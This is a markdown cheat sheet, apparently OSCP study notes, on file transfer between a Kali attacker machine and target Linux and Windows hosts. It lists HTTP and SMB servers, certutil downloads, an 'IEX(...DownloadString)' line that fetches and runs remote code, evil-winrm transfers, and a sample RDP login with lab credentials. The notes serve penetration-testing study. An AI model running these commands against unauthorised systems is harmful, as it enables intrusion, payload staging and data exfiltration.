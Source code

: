### Transfer Files

#### Linux → Linux
- **HttpServer**
    - `Kali> python3 -m http.server 80` → Start HttpServer on current directory at port 80
	- `Target> wget http://<IP>/<file>` → Fetch file
	- `Target> curl http://<IP>/<file> -o <file-name>` → Fetch file
#### Linux → Windows
- **HttpServer**
    - `Kali> python3 -m http.server 80` → Start HttpServer on current directory at port 80
	- `cmd> certutil -urlcache -f http://<IP>/<file> <Path/to/file>` → Fetch file
	- `cmd> curl http://<IP>/<file> -o <file-name>` → Fetch file
	- `PS> iwr -uri http://<IP>/<file> -Outfile <file-name>` → Fetch file
	- `PS> IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/<file>')` → Fetch file
- **SmbServer**
	- With Authentication
	    - `Kali> sudo impacket-smbserver -smb2support -user abc -password abc SendMeDataNow $(pwd)`
		- `cmd> net use M: /delete`
		- `cmd> net use M: \\<Attacker-IP>\SendMeDataNow /user:abc abc`
        - `cmd> dir M:\`
        - `cmd> Copy M:\<file> <file-name>`
        - Alternative - Mount through powershell
        	```
        	$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
        	$cred = New-Object System.Management.Automation.PSCredential('<user>', $pass)
        	New-PSDrive -Name "<ShareName>" -PSProvider "FileSystem" -Root "\\<AttackerIP>\<ShareName>" -Credential $cred
        	```
	- Without Authentication
		- `Kali> sudo impacket-smbserver -smb2support SendMeDataNow $(pwd)`
		- `cmd> net use M: /delete`
		- `cmd> net use M: \\<Attacker-IP>\SendMeDataNow`
        - `cmd> dir M:\`
        - `cmd> Copy M:\<file> <file-name>`
- **RDP Client**
    - `xfreerdp /v:<IP> /d:<domain> /u:<username> /p:<password> /w:1200 /h:700 +drive:<Path/for/shared/directory/on/target>,<Path/for/shared/directory/on/local/system>`
	- eg. `xfreerdp /v:172.16.206.12 /u:yoshi /p:Mushroom! /w:1200 /h:700 +drive:C:\Users\,/home/piyush/Documents/practice-OSCP/medtech` → Here, we use medtech on local system as shared directory that will appear on remote system at path - `C:\Users` 
#### Windows → Linux
- Use `SmbServer` from previous section.
- Use `RDP Client` from previous section.
- `impacket-psexec` , `impacket-wmiexec` , `evil-winrm` have there own commands to upload or download files
    - `upload <file>`
    - `download <file>`
#### Windows → Windows
- **SmbServer** → Powershell
    - Enumerate SMB Share on current system
        - `Get-SMBShare` → List of shares
		- `Get-SMBShare <share-name>` → Basic Information about share
		- `Get-SMBShare <share-name> | gm` → Detailed description (parameters) about share (get member)
		- `Get-SMBShare <share-name> | fl` → Basic information about share (format-list)
		- `Get-SMBShare <share-name> | fl *` → Detailed information about share (Parameter:Value)
		- `Get-SMBShareAccess <share-name>` → Shows user accounts that can access share
		- `Get-SMBShare | Get-SMBShareAccess` → Show user account access for all shares
            - `Get-SMBShare | Get-SMBShareAccess | format-table -groupby name`
	- Create New SMB Share → Administrator’s access
        - `Set-Location C:\` → Change Directory
		- `New-Item -ItemType directory SampleShare` → Create Directory
		- `Get-ChildItem` → List files in directory
		- `New-SMBShare Sample C:\SampleShare` → Create Share with name Sample pointing to location `C:\SampleShare`
		- `Set-SMBShare Sample -description "Sample share for demo"` → To Set Parameter Value for Sample
		- `Grant-SMBShareAccess Sample -AccountName 'Everyone' -AccessRight Full`
		- `Get-Command -noun SMBShare` → This helps us find command name like grep
		- `Remove-SmbShare Sample` → Remove Sample Share
	- Create New Sharable Directory → Non-Administrator
        - Create a directory → `Public`
		- Go to `Properties`  → `Sharing`  tab → Click `Share`
		- Select `Everyone` → By default `Read` Access is selected (But everyone only means all user accounts of your domain)
#### Some Awesome References
- [Different ways to transfer files from/to Linux (and Windows) machines (I)](https://medium.com/@drenfermo/different-ways-to-transfer-files-from-to-linux-and-windows-machines-i-9eebda7033fb)
- [Different ways to transfer files from/to Linux (and Windows) machines (II)](https://medium.com/@drenfermo/different-ways-to-transfer-files-from-to-linux-and-windows-machines-ii-a351b5a78811)
